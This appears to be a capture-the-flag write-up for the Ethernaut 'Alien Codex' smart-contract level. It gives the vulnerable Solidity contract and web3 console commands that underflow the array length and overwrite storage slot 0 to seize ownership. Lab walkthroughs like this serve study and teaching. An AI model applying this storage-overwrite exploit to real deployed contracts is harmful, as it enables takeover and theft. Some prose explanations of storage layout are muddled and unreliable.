## 19 Alien Codex

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;
import '../helpers/Ownable-05.sol';
contract AlienCodex is Ownable {
  bool public contact;
  bytes32[] public codex;
  modifier contacted() {
    assert(contact);
    _;
  }

  function make_contact() public {
    contact = true;
  }
  function record(bytes32 _content) contacted public {
    codex.push(_content);
  }
  function retract() contacted public {
    codex.length--;
  }
  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

To solve this challenge we need to claim the ownership of the contract.

The contract inherting the ownable contract which have the owner variable. So it will come in slot 0 in our contract.

First we need call the `retract` function o change the length of the codex . Because of the underflow of the codex size becomes `2 ** 256`.

To call retract we need to call `make_contact` first.

```js
await contract.make_contact();
await contract.retract();
await web3.eth.getStorageAt(instance, 1);
//'0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff'
```

So that we can write at any index of the codex which is the overall storage of the contract.

We need to calculate the slot of the codex[0] which is the place owner variable is stored . We need to find the index and pass it to `revise` function to claim the ownership.

The length of the array is stored at slot - 1 . The array will start at `keccka256(slot-1) + index ` (index = 0) .

```js
index = await web3.utils.encodePacked(
	web3.utils
		.toBN("0x1" + "0".repeat(64))
		.sub(web3.utils.toBN(web3.utils.keccak256("0x" + "0".repeat(63) + "1")))
);
await contract.revise(index, "0x" + player.slice(2).padStart(64, "0"));
```

